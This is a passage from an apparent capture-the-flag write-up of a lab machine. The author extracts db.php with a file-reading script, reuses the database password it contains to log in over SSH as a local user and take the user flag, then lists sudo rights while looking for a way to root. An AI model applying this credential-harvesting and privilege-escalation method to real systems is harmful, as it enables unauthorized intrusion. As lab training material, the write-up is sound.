 I started looking at files from the server, but I did not find anything I could use. Until I went back to the Feroxbuster results and saw a file called `db.php`.

I extracted that file with my script.

```bash
$ ./get_file.py db.php         
```

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "REDACTED";
$testuser = "test";
?>
```

I used the password found in the file to try to connect as the development user found in `/etc/passwd`.

```bash
$ ssh development@target
development@target's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

...

development@bountyhunter:~$ cat user.txt 
REDACTED

development@bountyhunter:~$ 
```

It worked, and I got the user flag.

## Getting root.

Once connected, I checked if I could run anything with `sudo`.

```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

development@bountyhunter:~$ ls -l /opt/skytrain_inc/ticketValidator.py
-r-xr--r-- 1 root root 1471 Jul 22  2021 /opt/skytrain_inc/ticketValidator.py
```

I could run a Python script. That script was not writeable, so I looked at what it contained. 
